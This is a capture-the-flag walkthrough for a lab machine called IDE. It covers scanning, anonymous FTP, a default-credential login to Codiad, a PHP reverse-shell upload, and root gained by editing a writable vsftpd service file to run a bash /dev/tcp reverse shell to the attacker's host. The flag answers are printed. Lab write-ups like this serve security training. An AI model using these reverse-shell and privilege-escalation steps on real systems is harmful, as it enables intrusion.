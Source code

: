 # IDE

* IP = 10.10.33.250

## Questions/Tasks:

* Firstly, we scan for any open ports:
```bash
nmap -sC -sV $IP
```
### Nmap Initial Scan Results:
```bash
PORT      STATE    SERVICE       VERSION
21/tcp    open     ftp           vsftpd 3.0.3
|_ftp-anon: Anonymous FTP login allowed (FTP code 230)
| ftp-syst:
|   STAT:
| FTP server status:
|      Connected to ::ffff:10.4.50.128
|      Logged in as ftp
|      TYPE: ASCII
|      No session bandwidth limit
|      Session timeout in seconds is 300
|      Control connection is plain text
|      Data connections will be plain text
|      At session startup, client count was 2
|      vsFTPd 3.0.3 - secure, fast, stable
|_End of status
22/tcp    open     ssh           OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   2048 e2:be:d3:3c:e8:76:81:ef:47:7e:d0:43:d4:28:14:28 (RSA)
|   256 a8:82:e9:61:e4:bb:61:af:9f:3a:19:3b:64:bc:de:87 (ECDSA)
|_  256 24:46:75:a7:63:39:b6:3c:e9:f1:fc:a4:13:51:63:20 (ED25519)
80/tcp    open     http          Apache httpd 2.4.29 ((Ubuntu))
| http-methods:
|_  Supported Methods: GET POST OPTIONS HEAD
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-title: Apache2 Ubuntu Default Page: It works
264/tcp   filtered bgmp
1164/tcp  filtered qsm-proxy
1183/tcp  filtered llsurfup-http
1600/tcp  filtered issd
4006/tcp  filtered pxc-spvr
9090/tcp  filtered zeus-admin
10180/tcp filtered unknown
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel
```
* This brings us here when opened in browser:<br>
![Screenshot](./assets/1.png)
* Search for directories on the webpage using Gobuster:
```
gobuster -u "http://10.10.164.73/" -w common.txt
```
### GoBuster Scan Results:
```
/.hta (Status: 403)
/.htaccess (Status: 403)
/.htpasswd (Status: 403)
/index.html (Status: 200)
/server-status (Status: 403)
=====================================================
2022/06/30 09:58:18 Finished
=====================================================

```
* On the other hand there is *Anonymous* login enabled over FTP server(Which helps to login with username as Anonymous and with no password)...Let's try that<br>
![Screenshot](./assets/2.png)
* Contents of the file `-`:
```
Hey john,
I have reset the password as you have asked. Please use the default password to login.
Also, please take care of the image file ;)
- drac.
```
* At this moment I have no idea what that means😮‍💨😮‍💨, anyways let's keep the statement in mind and save for later use!!
* Let's note `john` and `drac` as usernames for possible brute force on the webpage.
* Since gobuster shows us nothing interesting, we try an all port scan on Nmap( Maybe it can find something on some other port)🤔
### Nmap All Port Scan Results:
* Using `-p-` and `-Pn` switches:
* Since it was taking wayy too long, I decided to stop the whole scan:<br>
![Screenshot](./assets/3.png)
* And searched only for ephemeral ports:<br>
![Screenshot](./assets/4.png)
* Finally we got **62337** as an open port.
* visit the webpage: http://IP:62337/ which looks like this:<br>
![Screenshot](./assets/5.png)
* Used a python [script](./script.py) to login, and got success in first try with Username as **john** and password as **password**
* After logging in:
![Screenshot](./assets/6.png)
* Searched for known exploits in <a href="https://www.exploit-db.com/">exploit-db</a> for **Codiad** and found some.
* Used a custom [script](./script.py) to upload a php reverse shell payload file
* Setup a netcat listener and run the script:<br>
![Screenshot](./assets/7.png)
* Navigate to */home/drac* we see the following contents:<br>
![Screenshot](./assets/8.png)
* Use the found password `Th3dRaCULa1sR3aL` use it to escalate privileges to **drac**
![Screenshot](./assets/9.png)

1. user.txt

**Ans-02930d21a8eb009f6d26361b2d24a466**

* Firstly check for `sudo -l` using the same password:<br>
![Screenshot](./assets/10.png)
* So, we can restart the vsFTPd service.
* Check the current status with `systemctl status vsftpd`:<br>
![Screenshot](./assets/11.png)
* See carefully that the service loads **/lib/systemd/system/vsftpd.service** as the service file
* Also notice that the file permissions are: `-rw-rw-r--` which means its readable and writable for the *drac* group ID
* User nano/vim/vi to edit the file:
* Modify the `ExecStart` value with `/bin/bash -c 'bash -i >& /dev/tcp/[YOUR IP]/[PORT] 0>&1'`
* Finally it must look like this:<br>
![Screenshot](./assets/12.png)
* Now setup another listener in your machine with specified port
* Restart the vsftpd service like this:<br>
![Screenshot](./assets/13.png)
* A root connection will be received:<br>
![Screenshot](./assets/14.png)

2. root.txt

**Ans-ce258cb16f47f1c66f0b0b77f4e0fb8d**

